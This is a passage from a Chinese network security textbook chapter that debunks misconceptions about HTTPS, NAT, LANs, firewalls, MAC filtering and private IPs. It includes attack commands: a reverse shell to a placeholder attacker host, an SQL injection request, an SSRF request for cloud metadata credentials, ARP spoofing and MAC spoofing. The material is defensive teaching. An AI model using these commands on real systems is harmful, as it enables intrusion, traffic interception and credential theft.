# 第05章 计算机网络基础 - 常见误区

网络安全领域充斥着大量"常识性"错误认知。这些误区不仅存在于初学者脑中，许多从业多年的工程师也会犯同样的错误。误区的危险之处在于：它们让人产生虚假的安全感，从而忽视真正的风险。本章逐一拆解15个最常见的网络认知误区，每个误区都配有原理分析、实操验证方法和真实案例，帮助你建立正确的安全心智模型。

## 误区分类总览

| 类别 | 误区 | 核心错误 | 风险等级 |
|------|------|----------|----------|
| 加密与协议 | HTTPS绝对安全 | 加密≠安全 | 🔴 高 |
| 加密与协议 | DNS用UDP不可靠 | 混淆协议设计 | 🟡 低 |
| 加密与协议 | IPv6比IPv4更安全 | 版本≠安全 | 🟡 中 |
| 加密与协议 | 抓包能看到所有密码 | 忽视加密保护 | 🟡 中 |
| 网络边界 | NAT就是防火墙 | 功能混淆 | 🔴 高 |
| 网络边界 | 私有IP地址安全 | 边界≠安全 | 🔴 高 |
| 网络边界 | VPN完全匿名 | 过度信任 | 🔴 高 |
| 防御体系 | 防火墙阻止一切 | 单点依赖 | 🔴 高 |
| 防御体系 | MAC过滤保护WiFi | 伪安全措施 | 🟡 中 |
| 防御体系 | WPA2/WPA3不可破解 | 忽视侧信道 | 🟡 中 |
| 网络认知 | 局域网内安全 | 内部威胁盲区 | 🔴 高 |
| 网络认知 | ping不通=不在线 | 检测手段单一 | 🟡 中 |
| 网络认知 | 127.0.0.1绝对安全 | 本地服务风险 | 🟡 中 |
| 网络认知 | 扫描端口=攻击 | 概念混淆 | 🟢 低 |
| 网络认知 | 带宽=网速 | 概念混淆 | 🟢 低 |

---

## 误区一：HTTPS就是绝对安全的

### 错误认知

"网站有小锁图标，所以我的数据是安全的。"这是最普遍也最危险的网络安全误区之一。很多人将HTTPS等同于"绝对安全"，认为只要URL以https://开头，攻击者就完全无法获取任何信息。

### 原理分析

HTTPS = HTTP + TLS，它的工作流程如下：



### 事实真相：HTTPS的七大局限

**局限一：元数据完全暴露**

HTTPS只加密应用层数据（HTTP body和header），但以下信息对网络中的观察者完全可见：

- **目标IP地址**：攻击者知道你连了哪个服务器
- **SNI（Server Name Indication）**：TLS握手中明文传输域名（TLS 1.3的ECH扩展正在解决这个问题）
- **DNS查询**：除非使用DoH/DoT，否则域名查询是明文的
- **数据量和时间模式**：通过流量分析可以推断用户行为

```bash
# 验证：用tcpdump观察HTTPS流量，SNI域名仍然可见
sudo tcpdump -i eth0 'tcp port 443' -A | grep -i "host:"
# 输出示例：可以看到访问的域名
```

**局限二：证书警告可被绕过**

当用户遇到证书错误时，浏览器会显示警告页面。但大量用户会选择"高级→继续访问"。此时：

- 自签名证书的中间人攻击成功
- 过期证书的中间人攻击成功
- 企业环境中的SSL解密设备可以拦截所有HTTPS流量

**局限三：SSL Stripping降级攻击**

由Moxie Marlinspike在2009年BlackHat大会上提出的SSLStrip攻击，原理如下：



**防御方法**：服务器正确配置HSTS（HTTP Strict Transport Security）：

```text
# Nginx HSTS配置
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
```

**局限四：弱加密套件仍然可用**

许多服务器仍然支持已知不安全的加密套件：

```bash
# 检查服务器支持的加密套件
nmap --script ssl-enum-ciphers -p 443 example.com
# 关注：RC4、DES、3DES、EXPORT级别套件都是不安全的
```

**局限五：终端安全问题**

如果客户端设备被入侵（恶意软件、键盘记录器），HTTPS在应用层之前的数据就已经被截获。HTTPS保护的是传输过程，不是端点。

**局限六：CA证书信任链风险**

HTTPS的安全依赖于证书颁发机构（CA）的可信性。历史上多次发生CA被入侵或恶意签发证书的事件：

- 2011年DigiNotar被入侵，签发了google.com的伪造证书
- 2015年CNNIC签发了Google域名的未授权证书
- 2017年Symantec因多次违规被浏览器取消信任

**局限七：TLS 1.2及以下版本的已知漏洞**

| 漏洞 | 影响版本 | 攻击方式 | 后果 |
|------|----------|----------|------|
| BEAST | TLS 1.0 | CBC模式选择明文攻击 | 解密cookie |
| POODLE | SSL 3.0/TLS 1.0 | 降级攻击 | 解密数据 |
| CRIME | TLS压缩 | 压缩侧信道 | 窃取cookie |
| Heartbleed | OpenSSL | 内存越界读取 | 泄露私钥和内存数据 |
| ROBOT | RSA密钥交换 | Bleichenbacher攻击 | 解密密文 |
| Lucky13 | CBC MAC | 时间侧信道 | 逐步解密 |

### 正确理解

HTTPS是传输层安全的重要基础，但"加密"不等于"安全"。安全是一个体系，需要：

- 服务器端：强制HSTS、禁用弱加密套件、定期更新证书
- 客户端：保持浏览器更新、不忽略证书警告、使用DNS-over-HTTPS
- 应用层：输入验证、身份认证、会话管理
- 终端安全：防恶意软件、系统更新、最小权限

---

## 误区二：NAT就是防火墙

### 错误认知

"NAT隐藏了内部IP，外部无法直接访问我的设备，所以NAT等于防火墙。"

### 原理分析

NAT（Network Address Translation）的设计初衷是解决IPv4地址耗尽问题，而非提供安全保护。它的工作机制：



NAT表记录了内外地址的映射关系，只有匹配映射的回程流量才能通过。

### 事实真相：NAT的五大安全缺陷

**缺陷一：NAT不是为安全设计的**

RFC 1631定义NAT时，安全根本不在考虑范围内。NAT只是地址转换工具，没有任何访问控制逻辑。

**缺陷二：端口转发直接穿透NAT**

```bash
# 路由器上的端口转发规则
# 外部 203.0.113.1:8080 → 内部 192.168.1.100:80
# 这意味着内部服务直接暴露在互联网上
iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to 192.168.1.100:80
```

很多用户在配置NAS、远程桌面、游戏服务器时会开放端口转发，却不知道这意味着内部服务已直接暴露。

**缺陷三：出站连接完全不受限制**

NAT只控制入站连接，出站连接畅通无阻。恶意软件利用这一点：



**缺陷四：UPnP自动开放端口**

许多家用路由器默认开启UPnP（Universal Plug and Plug），任何内网程序都可以自动请求路由器开放端口：

```bash
# 使用upnpc工具自动开放端口（合法测试）
upnpc -a 192.168.1.100 8080 8080 TCP
# 恶意软件也可以这样做，无需用户干预
```

**缺陷五：NAT穿越技术**

STUN/TURN/ICE等NAT穿越技术可以让P2P应用绕过NAT限制，同样也可以被攻击者利用：

- STUN：发现公网IP和端口映射
- TURN：通过中继服务器转发流量
- ICE：综合使用多种穿越方法

### 正确理解

NAT提供的是"附带的隐匿效果"（incidental obscurity），而非安全机制。正确的安全架构应该是：

- 部署真正的有状态防火墙（Stateful Firewall）
- 配置明确的入站/出站规则
- 禁用不需要的UPnP
- 使用网络入侵检测系统（IDS）监控异常流量
- 在企业环境中实施零信任网络架构

---

## 误区三：局域网内是安全的

### 错误认知

"局域网是自己的网络，内部通信不需要加密，用HTTP、FTP、Telnet都没问题。"

### 原理分析

局域网（LAN）的安全边界在现代网络环境中已经变得极其模糊：



### 事实真相：局域网的六大威胁

**威胁一：ARP欺骗攻击**

ARP协议没有任何认证机制，任何局域网设备都可以发送伪造的ARP响应：

```bash
# arpspoof：将自己伪装为目标的网关
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
# 此后目标的所有流量都经过攻击者
# 使用Ettercap或Bettercap可以自动化整个过程
sudo bettercap -iface eth0
> arp.spoof on
```

在交换式网络中，ARP欺骗可以将攻击者置于通信双方之间，实现中间人攻击。

**威胁二：网络嗅探**

在WiFi网络中，所有设备共享同一无线信道，任何设备都可以嗅探到同网段的所有帧：

```bash
# 将无线网卡置于监听模式
sudo airmon-ng start wlan0
# 嗅探所有WiFi帧
sudo airodump-ng wlan0mon
```

即使在有线交换网络中，ARP欺骗、MAC泛洪、DHCP欺骗等技术也可以让攻击者获取到其他设备的流量。

**威胁三：内部威胁**

根据2023年Verizon DBIR报告，约19%的数据泄露涉及内部人员。内部人员具有天然优势：

- 已经拥有网络访问权限
- 了解系统架构和数据位置
- 可以绕过边界安全设备
- 行为更难被异常检测识别

**威胁四：横向移动**

攻击者入侵一台设备后，会以该设备为跳板在网络内扩散：


**威胁五：WiFi Evil Twin攻击**

攻击者在局域网物理范围内搭建同名WiFi热点：

```bash
# 使用hostapd创建同名AP
# 受害者设备可能自动连接（记住的网络）
# 攻击者即可看到所有明文流量
```

**威胁六：交换机攻击**

- **MAC泛洪**：用大量伪造MAC地址填满交换机CAM表，使交换机退化为集线器模式
- **VLAN跳跃**：通过双标签（double tagging）突破VLAN隔离
- **DHCP欺骗**：伪装DHCP服务器，将流量引导至攻击者

### 正确理解

局域网内的所有通信都应该假设可能被窃听。正确做法：

- 局域网内也使用HTTPS、SSH、SFTP等加密协议
- 实施802.1X网络准入控制（NAC）
- 部署网络入侵检测系统监控异常ARP和流量
- 对敏感子网进行VLAN隔离
- 启用DHCP Snooping和Dynamic ARP Inspection（DAI）
- 实施零信任原则：永不信任，始终验证

---

## 误区四：防火墙可以阻止所有攻击

### 错误认知

"我们部署了企业级防火墙，网络安全万无一失。"

### 原理分析

防火墙工作在网络层和传输层（L3/L4），通过规则匹配来决定放行或丢弃数据包：

```mermaid
graph LR
    A[入站流量] --> B{防火墙规则匹配}
    B -->|匹配ALLOW| C[放行]
    B -->|匹配DENY| D[丢弃]
    B -->|无匹配| E[默认策略]
    Note: 应用层攻击在ALLOW的流量中直接穿过
```

### 事实真相：防火墙的六大局限

**局限一：不检查应用层内容**

传统防火墙只看IP地址、端口和协议。一条"允许HTTP(80端口)"的规则会放行所有HTTP流量，包括：

- SQL注入攻击
- XSS跨站脚本
- Web Shell上传
- 命令注入

```bash
# 这条SQL注入会直接穿过只开放80端口的防火墙
curl "http://target.com/search?q=' UNION SELECT username,password FROM users--"
```

**局限二：加密流量不透明**

HTTPS流量在防火墙看来就是一堆加密字节，无法检查内容。除非部署SSL解密（SSL Inspection），否则防火墙对加密流量基本无能为力。

**局限三：允许的端口包含攻击面**

```bash
# 如果防火墙允许SSH(22)、HTTP(80)、HTTPS(443)
# 攻击者可以通过这些端口进行：
# - SSH暴力破解
# - Web应用攻击
# - 隧道穿透（HTTP/HTTPS隧道）
# 攻击流量使用的是"合法"端口，防火墙无法区分
```

**局限四：规则配置错误**

常见的配置错误：

- 规则过于宽松：允许所有出站流量（`0.0.0.0/0 → any: any ALLOW`）
- 规则顺序错误：拒绝规则在允许规则之后（从不生效）
- 忘记删除临时规则：测试用的全开放规则留在生产环境
- 未限制管理接口：防火墙管理界面对所有IP开放

**局限五：无法防御零日攻击**

防火墙基于已知规则工作，对于未知漏洞利用、新型攻击手法完全无能为力。

**局限六：无法防御社会工程学**

无论防火墙多么强大，如果攻击者通过电话欺骗员工获取密码，防火墙对此毫无作用。

### 正确理解

防火墙是纵深防御体系的第一层，而非唯一一层。完整的安全架构需要：

```text
┌─────────────────────────────────────────────┐
│ 第7层：安全意识培训（反社会工程学）            │
├─────────────────────────────────────────────┤
│ 第6层：终端防护（EDR、防病毒、补丁管理）       │
├─────────────────────────────────────────────┤
│ 第5层：应用安全（WAF、输入验证、代码审计）     │
├─────────────────────────────────────────────┤
│ 第4层：入侵检测/防御（IDS/IPS）               │
├─────────────────────────────────────────────┤
│ 第3层：防火墙（网络层访问控制）                │
├─────────────────────────────────────────────┤
│ 第2层：网络分段（VLAN、微隔离）               │
├─────────────────────────────────────────────┤
│ 第1层：物理安全                               │
└─────────────────────────────────────────────┘
```

---

## 误区五：MAC地址过滤能保护WiFi

### 错误认知

"我在路由器上设置了MAC地址白名单，只有我的设备能连WiFi，别人连不上。"

### 事实真相

MAC地址过滤是典型的"隐匿式安全"（Security through Obscurity），几乎没有实际防护作用。

**为什么MAC过滤无效：**

```bash
# 步骤1：监听WiFi流量，获取已授权设备的MAC地址
sudo airodump-ng wlan0mon
# BSSID              STATION            PWR   Rate   Lost  Packets
# AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -42   54e-1e  0     156

# 步骤2：将自己的MAC地址修改为目标设备的MAC
sudo ifconfig wlan0 down
sudo ifconfig wlan0 hw ether 11:22:33:44:55:66
sudo ifconfig wlan0 up

# 步骤3：连接WiFi（路由器看到的是"已授权"的MAC地址）
nmcli device wifi connect "TargetWiFi" password "password123"
```

**MAC地址在WiFi帧中的传输方式：**

| WiFi帧字段 | 是否加密 | 说明 |
|------------|----------|------|
| 802.11 Frame Control | 否 | 帧类型、子类型 |
| MAC Address 1 (目的) | 否 | 接收方MAC |
| MAC Address 2 (源) | 否 | 发送方MAC |
| MAC Address 3 (BSSID) | 否 | AP的MAC |
| 有效载荷（Data） | 是（WPA2/3） | 实际数据 |

WiFi帧的MAC地址始终是明文的，因为AP需要根据MAC地址来路由帧——这是协议设计决定的，无法改变。

### 正确理解

保护WiFi的正确做法，按优先级排序：

1. **使用WPA3-SAE加密**（最强）或至少WPA2-PSK
2. **设置强密码**：至少16位，混合大小写、数字、特殊字符
3. **禁用WPS**：WPS的PIN验证存在暴力破解漏洞
4. **定期更换密码**：尤其是有访客使用过后
5. **启用802.1X**（企业环境）：基于证书或RADIUS认证
6. **隐藏SSID**（仅作为辅助措施，不提供真正安全）

MAC过滤的唯一合理用途是防止普通用户误连你的网络，而不是安全防护。

---

## 误区六：ping不通就是不在线

### 错误认知

"我ping了目标IP没有回复，说明那台设备不在线/不存在。"

### 事实真相

ICMP（ping使用的协议）响应是可以被配置禁用的。ping不通只意味着目标没有回复ICMP Echo Request，不意味着目标不在线。

**ping失败的可能原因：**



**验证目标是否在线的多种方法：**

```bash
# 方法1：ARP扫描（同一局域网内最可靠）
sudo arp-scan -l
sudo nmap -sn -PR 192.168.1.0/24

# 方法2：TCP Ping（发送SYN包探测特定端口）
sudo nmap -sn -PS22,80,443 192.168.1.100
hping3 -S -p 80 -c 3 192.168.1.100

# 方法3：UDP探测（发送UDP包到高端口）
sudo nmap -sn -PU53,161 192.168.1.100

# 方法4：ACK探测（绕过只过滤SYN的防火墙）
sudo nmap -sn -PA80,443 192.168.1.100

# 方法5：时间戳探测（ICMP Timestamp Request）
sudo nmap -sn -PP 192.168.1.100

# 方法6：综合使用多种方法
sudo nmap -sn -PE -PP -PS22,80,443 -PA80,443 -PU40125 192.168.1.0/24
```

**真实场景：企业服务器默认禁用ICMP**

许多企业的生产服务器会配置禁用ICMP响应以减少信息泄露。安全团队在渗透测试中如果只依赖ping进行主机发现，会遗漏大量在线主机。

### 正确理解

主机发现应该使用多种方法组合：

| 方法 | 适用场景 | 优点 | 缺点 |
|------|----------|------|------|
| ARP扫描 | 同一局域网 | 最可靠，无法被防火墙过滤 | 只限本地网段 |
| TCP SYN探测 | 跨网段 | 穿透大多数防火墙 | 需要目标有开放端口 |
| UDP探测 | 跨网段 | 可发现TCP端口全关的主机 | 速度慢，结果不明确 |
| ICMP探测 | 通用 | 简单快速 | 很多主机禁用 |

---

## 误区七：DNS使用UDP就一定不可靠

### 错误认知

"DNS用UDP传输，UDP不保证可靠送达，所以DNS查询可能经常丢失。"

### 事实真相

UDP的"不可靠"是指传输层不保证数据到达，不意味着应用层不能实现可靠性。DNS的设计已充分考虑了这一点。

**DNS的可靠性机制：**

1. **应用层重试**：DNS客户端在超时后自动重试，默认通常重试3次
2. **多DNS服务器**：系统配置多个DNS服务器（主/备），主服务器失败自动切换
3. **DNS也支持TCP**：当响应超过512字节（EDNS0扩展到4096字节）或区域传送时使用TCP（RFC 7766）
4. **DNS over TCP成为标准**：RFC 7766明确要求DNS解析器必须支持TCP

```bash
# 验证：大DNS响应会自动切换到TCP
dig @8.8.8.8 ANY example.com +tcp
# 查询ANY记录通常返回大量数据，触发TCP

# DNS over HTTPS（DoH）提供加密+可靠性
curl -H "accept: application/dns-json" \
  "https://cloudflare-dns.com/dns-query?name=example.com&type=A"

# DNS over TLS（DoT）同样加密+可靠
kdig -d @1.1.1.1 example.com +tls
```

**为什么选择UDP作为DNS默认传输协议：**

| 特性 | UDP | TCP |
|------|-----|-----|
| 连接建立 | 无（0 RTT） | 3次握手（1.5 RTT） |
| 头部开销 | 8字节 | 20字节+ |
| 典型DNS查询大小 | < 512字节 | - |
| 服务器并发能力 | 高（无状态） | 低（每连接占资源） |
| 对于小查询的延迟 | 更低 | 更高 |

DNS选择UDP是工程上的合理权衡——大多数DNS查询很小（< 100字节），UDP的无连接特性让DNS服务器能以极低成本处理海量查询。

### 正确理解

UDP的"不可靠"是传输层语义，不等于应用层不可靠。DNS通过应用层重试、多服务器冗余、TCP回退、加密传输（DoH/DoT）等机制，在保持高性能的同时确保了可靠性。

---

## 误区八：私有IP地址（192.168.x.x）是安全的

### 错误认知

"我的设备用的是192.168.x.x的内网IP，互联网上的人根本访问不到，所以是安全的。"

### 事实真相

私有IP地址（RFC 1918定义的10.0.0.0/8、172.16.0.0/12、192.168.0.0/16）只是不在公共互联网上路由，但不代表安全。

**私有IP暴露的五种路径：**



**路径一：恶意软件反向隧道**

恶意软件从内网主动发起出站连接到C2服务器，建立反向隧道后，攻击者可以从互联网访问内网设备：

```bash
# 攻击者在互联网VPS上监听
nc -lvnp 4444

# 受控内网主机反向连接（出站流量通常不被NAT/防火墙阻止）
bash -i >& /dev/tcp/attacker.com/4444 0>&1
```

**路径二：VPN和端口转发**

```bash
# 用户为了远程办公配置了端口转发
# 路由器：公网IP:3389 → 192.168.1.100:3389（远程桌面）
# 攻击者扫描到公网IP的3389端口，直接连接
nmap -p 3389 203.0.113.1
```

**路径三：云环境配置错误**

AWS VPC、Azure VNet等云环境中的私有子网，如果安全组配置错误（如0.0.0.0/0入站规则），私有IP可能被意外暴露。

**路径四：SSRF利用**

Web应用中的SSRF（Server-Side Request Forgery）漏洞可以让攻击者通过Web服务器访问内网私有IP：

```bash
# 利用SSRF访问内网元数据服务
curl "http://webapp.com/fetch?url=http://169.254.169.254/latest/meta-data/"
# AWS实例元数据服务可以泄露IAM临时凭据
```

**路径五：内网渗透**

一旦攻击者通过任何方式进入内网（钓鱼、WiFi入侵、物理接入），私有IP设备完全没有互联网边界保护。

### 正确理解

私有IP是地址管理方案，不是安全机制。正确的安全策略应该是基于身份和权限的访问控制（零信任模型），而不是依赖网络位置。

---

## 误区九：抓包就能看到所有密码

### 错误认知

"用Wireshark抓包，所有密码都会明文显示。"

### 事实真相

抓包能看到什么，取决于网络环境和协议加密状态。

**抓包的能力边界：**



**交换式网络的限制：**

在现代交换式以太网中，交换机根据MAC地址表精确转发帧，只将帧发送到目标端口。攻击者默认只能看到：

- 发往自己MAC地址的帧
- 广播帧（FF:FF:FF:FF:FF:FF）
- 组播帧（如果加入了组播组）

要嗅探其他设备的流量，必须先进行ARP欺骗：

```bash
# 使用Bettercap进行ARP欺骗+抓包
sudo bettercap -iface eth0
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
> net.sniff on
```

**加密协议的保护：**

| 协议 | 密码传输方式 | 抓包可见性 |
|------|------------|-----------|
| HTTP Basic Auth | Base64编码（≈明文） | 完全可见 |
| FTP | 明文 | 完全可见 |
| Telnet | 明文 | 完全可见 |
| HTTP POST (明文) | 明文 | 完全可见 |
| HTTPS | TLS加密 | 不可见 |
| SSH | 公钥/密码加密 | 不可见 |
| Kerberos | 加密票据 | 票据可见，密码不可见 |
| OAuth 2.0 | Bearer Token | Token可见，密码不可见 |

**证书固定（Certificate Pinning）的抗中间人能力：**

一些应用（如银行App、Signal等）实施了证书固定，即使攻击者进行了ARP欺骗和SSL解密，应用也会因为证书不匹配而拒绝连接。

### 正确理解

